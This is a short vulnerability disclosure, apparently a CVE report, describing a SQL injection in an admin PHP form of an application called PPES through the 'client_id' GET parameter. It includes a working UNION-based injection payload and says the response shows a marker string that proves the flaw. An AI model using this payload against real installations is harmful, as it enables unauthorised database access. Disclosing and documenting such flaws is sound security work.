 BUG_Author: LeoZhangCA

Vulnerability File: /PPES/admin/returned_reuse_form.php

GET parameter "client_id" exists SQL injection vulnerability

Payload1: client_id=-1' union all select null,null,null,null,concat(0x5152535556,0x666768),null,null,null-- -&dep_id=17&item_id=27

The UNION query is successful, and the expected string "QRSVfgh" appears, which proves that there is a SQL injection vulnerability

![image](https://github.com/LeozhangCA/CVEReport/blob/main/picture/sql.png)
